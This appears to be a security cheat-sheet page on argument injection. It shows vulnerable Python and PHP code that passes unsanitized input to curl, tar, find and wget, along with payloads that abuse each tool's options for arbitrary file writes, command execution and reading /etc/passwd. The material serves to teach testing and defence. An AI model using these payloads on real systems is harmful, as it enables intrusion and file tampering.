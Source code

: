 # Argument Injection

Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:*

```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```

It is possible for an attacker to pass several words to abuse options from ```curl``` command

```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```

We can see by printing the command that all the parameters are split allowing to inject an argument that will save the response in an arbitrary file.

```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```

## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND](#FIND)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL

It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR

For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:

```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:

```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```

There are also short options to work without spaces:

```ps1
-T<file>
-I"/path/to/exec"
```

### FIND

Find some_file inside /tmp directory.

```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.

```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET

Example of vulnerable code

```php
system(escapeshellcmd('wget '.$url));
```

Arbitrary file write

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
